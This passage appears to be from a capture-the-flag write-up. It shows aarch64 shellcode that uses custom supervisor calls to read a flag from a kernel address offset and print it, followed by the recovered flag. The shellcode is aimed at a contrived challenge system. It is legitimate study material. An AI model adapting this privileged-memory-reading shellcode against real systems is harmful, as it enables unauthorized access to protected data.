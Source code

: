 ```asm
	mov x8, 0x181
	sub x8, x8, 0x180
	mov x2, x8
	mov x8, 0x185
	sub x8, x8, 0x180
	svc 0x1337

	// print
    // the other kernel address already in x21
    // add the offset to the kernel flag
	mov x20, 0x5e04
	add x1, x21, x20
	mov x0, x1
	mov x8, xzr
	svc 0x1337

	// jmp back to entry
	mov x20, xzr
	br x20

path:
.ascii "/flg"
```
(If anyone knows any aarch64 tricks to get this shellcode smaller please hit us
up :)))

And after sending this shellcode we get the flag!

`OOO{forbes 31 under 31 :)}`

